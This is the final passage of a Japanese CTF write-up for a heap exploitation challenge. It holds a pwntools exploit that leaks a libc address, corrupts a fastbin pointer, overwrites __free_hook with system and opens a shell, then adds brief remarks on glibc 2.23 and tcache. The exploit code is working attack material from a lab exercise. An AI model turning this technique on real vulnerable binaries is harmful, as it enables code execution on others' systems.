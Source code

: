 ```python
    s.recvline()
    libc_addr = u64(s.recv(8)) - offset
    logger.libc(libc_addr)

    delete(s, 10)
    edit(s, 10, p64(0x6020f8))

    create(s, 7, 0x38)
    payload = p64(0x10000000100)
    payload += p64(0) * 2
    payload += p64(libc_addr + free_hook_libc)
    payload += p64(0) * 3
    create(s, 9, 0x38, payload)

    edit(s, 0, p64(libc_addr + system_libc))
    delete(s, 7)

    s.interactive()

```

## Flag

ローカルでシェル取っただけ

## 感想

PIE無効じゃなかったら死んでた
実は初2.23だが、fastbinのサイズチェックが結構キツい、tcacheがクソ雑魚だということが証明されてしまった

眠すぎて適当な解説になったので明日起きて覚えていたらもう少し丁寧に書き直します
